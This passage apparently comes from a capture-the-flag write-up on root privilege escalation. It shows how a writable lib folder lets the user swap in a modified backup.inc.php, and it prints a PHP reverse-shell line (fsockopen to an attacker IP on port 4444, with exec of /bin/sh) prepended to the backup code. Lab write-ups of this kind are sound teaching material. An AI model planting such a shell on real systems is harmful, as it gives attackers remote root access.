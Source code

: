 - The script requires a file called backup.inc.php this means it will call this file , then it backups all the files in /home/sysadmin/scripts to /var/backups/backup.zip
    
- As you can see the backup.inc.php is owned by root, so we can’t modify it
    
```r
sysadmin@opacity:~/scripts/lib$ ls -la
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
```

- You should notice that the sysadmin user have all the permissions to the _lib_ folder

![opacity23](https://aymanzerda-sudotime.github.io/images/opacity23.png)

- So the idea here is we’re going to copy _backup.inc.php_ to our home directory, now we can modify the file.

![opacity24](https://aymanzerda-sudotime.github.io/images/opacity24.png)

- Let’s add a php reverse shell

```
$sock=fsockopen("10.X.X.X",4444);exec("sh <&3 >&3 2>&3");
```

sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
```s
<?php

$sock=fsockopen("10.6.42.185",4444);exec("/bin/sh -i <&3 >&3 2>&3");

ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
	if (extension_loaded('zip')) {
		if (file_exists($source)) {
			$zip = new ZipArchive();
			if ($zip->open($destination, ZIPARCHIVE::CREATE)) {
				$source = realpath($source);
				if (is_dir($source)) {
					$files = new RecursiveIteratorIterator(new RecursiveDirectoryIterator($source, RecursiveDirectoryIterator::SKIP_DOTS), RecursiveIteratorIterator::SELF_FIRST);
					foreach ($files as $file) {
						$file = realpath($file);
						if (is_dir($file)) {
							$zip->addEmptyDir(str_replace($source . '/', '', $file . '/'));
						} else if (is_file($file)) {
							$zip->addFromString(str_replace($source . '/', '', $file), file_get_contents($file));
						}
```